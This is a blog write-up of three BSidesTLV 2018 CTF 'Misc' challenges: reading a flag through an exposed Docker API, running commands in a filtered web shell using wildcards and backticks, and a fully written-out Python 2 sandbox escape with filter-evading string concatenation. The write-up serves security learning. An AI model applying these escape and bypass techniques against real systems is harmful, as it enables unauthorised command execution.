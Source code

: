 ```yaml
---
layout: post
title: "BSidesTLV: 2018 CTF (Misc)"
date: 2018-10-24 18:53:07 +0000
last_modified_at: 2018-12-09 08:12:55 +0000
category: CTF
tags: [BSidesTLV]
comments: true
image:
  feature: https://res.cloudinary.com/limbernie/image/upload/img/bsidestlv.jpg
---
```


This post documents my attempt to complete [BSidesTLV: 2018 CTF (Misc)](https://www.vulnhub.com/entry/bsidestlv-2018-ctf,250/). If you are uncomfortable with spoilers, please stop reading now.
{: .notice}

<!--more-->

## On this post 
{:.no_toc} 

* TOC 
{:toc}

## Background

The 2018 BSidesTLV CTF competition brought together over 310 teams burning the midnight oil to crack our challenges in a bout that lasted for two weeks. You can now enjoy the same pain and suffering, using this easy-to-use, condensed VM that now hosts all our challenges in an easy to digest format. The CTF has five categories:

+ Web (10 challenges)
+ Reverse Engineering (3 challenges)
+ Misc (3 challenges)
  1. <a href="#{{ 'DockingStation' | downcase | replace: ' ', '-'}}">DockingStation</a>
  2. <a href="#{{ 'c1337Shell' | downcase | replace: ' ', '-'}}">c1337Shell</a>
  3. <a href="#{{ 'PySandbox-Insane' | downcase | replace: ' ', '-'}}">PySandbox-Insane</a>
+ Forensics (1 challenge)
+ Crypto (2 challenges)

What follows is my humble attempt of cracking the challenges in the **Misc** category.

### DockingStation

This is how the challenge looks like.

<a class="image-popup">
![c7de4a68.png](/assets/images/posts/bsidestlv-misc/c7de4a68.png)
</a>

After logging in, this is what I found.

<a class="image-popup">
![d59d61f1.png](/assets/images/posts/bsidestlv-misc/d59d61f1.png)
</a>

If I had to guess, I would say that's a Unix socket connected to a Docker. And since I've the SSH credentials, I can make use of SSH local port forwarding and connect to the Docker like so.

<a class="image-popup">
![3581904c.png](/assets/images/posts/bsidestlv-misc/3581904c.png)
</a>

Look Ma, got access to Docker [API](https://docs.docker.com/engine/api/v1.37/) without using Unix socket.

<a class="image-popup">
![b6f6570d.png](/assets/images/posts/bsidestlv-misc/b6f6570d.png)
</a>

The stopped container with the image `galf` is highly suspicious. On second look, notice the reverse of `galf` is `flag`? This must be it.

My attempts to start the container resulted in an error.

<a class="image-popup">
![c4f4c07b.png](/assets/images/posts/bsidestlv-misc/c4f4c07b.png)
</a>

I came across the command to export the entire container as a tarball after consulting the API.

<a class="image-popup">
![770aa59a.png](/assets/images/posts/bsidestlv-misc/770aa59a.png)
</a>

After extracting the files from the tarball, the flag is at `/home/flag_is_here/flag.txt`.

<a class="image-popup">
![d6da982b.png](/assets/images/posts/bsidestlv-misc/d6da982b.png)
</a>

The flag is `BSidesTLV{i_am_r34dy_t0_esc4p3_th3_d0ck3r!}`.

### c1337Shell

This is how the challenge looks like.

<a class="image-popup">
![f566bc99.png](/assets/images/posts/bsidestlv-misc/f566bc99.png)
</a>

Let's visit the challenge URL.

<a class="image-popup">
![cb794b70.png](/assets/images/posts/bsidestlv-misc/cb794b70.png)
</a>

Appears to be a web shell. Turns out that it doesn't accept alphanumerical characters and `$&|'<>`.

Look what happens when I supply a bad character?

<a class="image-popup">
![6806a44f.png](/assets/images/posts/bsidestlv-misc/6806a44f.png)
</a>

Now look what happens when I supply the tilde `~` character?

<a class="image-popup">
![1d3306cd.png](/assets/images/posts/bsidestlv-misc/1d3306cd.png)
</a>

In `bash`, the tilde `~` character represents the home directory of the current user. I suspect "the other side" is `echo`ing out shell output, whatever "the other side" is.

In that case, I should be able to use shell wildcards. The wildcard `?` and `*` represents single character and zero-or-more characters respectively.

Using these two wildcards, I was able to map out where the flag is.

<a class="image-popup">
![5aa73479.png](/assets/images/posts/bsidestlv-misc/5aa73479.png)
</a>

The problem now is this—how the f\*\*k do I display the flag with `cat`? With backticks `` `...` `` (or command substitution) and wildcards of course!

We know `cat` is at `/bin/cat`. We can use `/???/???` to represent it. Of course, there are other directories and commands behind that pattern. But, when you surround it with backticks, the shell should execute the command and skip the rest of the non-executable. Let's give it a shot.

<a class="image-popup">
![177cc70b.png](/assets/images/posts/bsidestlv-misc/177cc70b.png)
</a>

The flag is:

```
BSidesTLV{1_l1k3_wildcards_&_r3g3x_but_h8_th3_cr34t0r}
```

### PySandbox-Insane

This is how the challenge looks like.

<a class="image-popup">
![00261ba8.png](/assets/images/posts/bsidestlv-misc/00261ba8.png)
</a>

The aim of this challenge is to escape the sandbox and run the following code.

```py
import os; os.system("curl secret/flag.txt")
```

That's all. No more no less.

How do we crack this challenge then? Remember Python's axiom? _Everything is an object_. CPython provides [special methods](https://docs.python.org/3/reference/datamodel.html#special-method-names) to get/set attributes from/in an object. Essentially, CPython allows shortcuts or syntactic sugar for a simple statement such as `import os`. Under the hood, it's all special methods and/or special attributes at work.

For example, let's say you want to assign the integer `1` to variable `a`. This is how you do it in Python 2.7.

```
>>> a = 1
>>> a
1
```

Or, you can do it this way.

```
>>> __builtins__.__setattr__("a", 1)
>>> a
1
```

Which is another way of saying, "I'm setting an attribute with a name of 'a' and value of 1 in the `__builtins__` module." `__builtins__` is a module (an object by the way) that provides direct access to all the 'built-in' identifiers of Python. Use `__builtins__.__dict__` to view all the attributes of this object.

Armed with this simple introduction, how do we run the above code? Again, the challenge has provided the much-needed hints.

<a class="image-popup">
![53fa6e73.png](/assets/images/posts/bsidestlv-misc/53fa6e73.png)
</a>

If you look at the subclasses that inherit from `object`, you'll find that `warningmessage` is one of them.

<a class="image-popup">
![a9b63ff6.png](/assets/images/posts/bsidestlv-misc/a9b63ff6.png)
</a>

Dig deeper into the [source code](https://github.com/python/cpython/blob/2.7/Lib/warnings.py) of the `warnings` module, you'll see that the `warnings` module imports the `linecache` module.

<a class="image-popup">
![42b3f2fc.png](/assets/images/posts/bsidestlv-misc/42b3f2fc.png)
</a>

Further down the code, you'll find the `warnings.WarningMessage` class.

<a class="image-popup">
![c84f1469.png](/assets/images/posts/bsidestlv-misc/c84f1469.png)
</a>

We can continue into the [source code](https://github.com/python/cpython/blob/2.7/Lib/linecache.py) of the `linecache` module, and you'll see that it imports the `os` module.

<a class="image-popup">
![118b740a.png](/assets/images/posts/bsidestlv-misc/118b740a.png)
</a>

In summary, we can expand the code above like this.

```
obj = __builtins__.__class__.__mro__[1]
sub = obj.__subclasses__
war = sub()[58]
ini = war.__init__
glo = ini.func_globals
lin = glo["linecache"]
dic = lin.__dict__
ops = dic["os"]
run = ops.["system"]
run("curl secret/flag.txt")
```

Of course, certain words are still banned from use by the firewall. Recall how Python performs `a = 1` under the hood? It's actually setting an attribute in the `__builtins__` object. With that in mind, we can make use of another trick to bypass the firewall—first break up the banned words and then combine them back through concatenation. Python uses the `+` operator for string concatenation. In fact, Python uses `__add__` method-wrapper internally to do that.

For example, I can represent "curl" with `"cu".__add__("rl")`.

Here's the convoluted version. **Warning**: lots of typing ahead.

```py
__builtins__.__setattr__("obj",__builtins__.__getattribute__("__class".__add__("__")).mro(  ).__getitem__(1))
__builtins__.__setattr__("sub",obj.__getattribute__(obj,"__sub".__add__("classes__")))
__builtins__.__setattr__("war",sub( ).__getitem__(58))
__builtins__.__setattr__("ini",war.__getattribute__(war,"__in".__add__("it__")))
__builtins__.__setattr__("glo",ini.__getattribute__("__glo".__add__("bals__")))
__builtins__.__setattr__("lin",glo.__getitem__("line".__add__("cache")))
__builtins__.__setattr__("dic",lin.__getattribute__("__dic".__add__("t__")))
__builtins__.__setattr__("ops",dic.__getitem__("o".__add__("s")))
__builtins__.__setattr__("run",ops.__getattribute__("sy".__add__("stem")))
run("cu".__add__("rl	sec").__add__("ret/fl").__add__("ag.txt"))
```

I've also replaced space (`0x20`) with tab (`0x09`) to bypass the firewall.

<a class="image-popup">
![89b5efca.png](/assets/images/posts/bsidestlv-misc/89b5efca.png)
</a>

The flag is `BSidesTLV{I_AM_The_Python_Master}`.
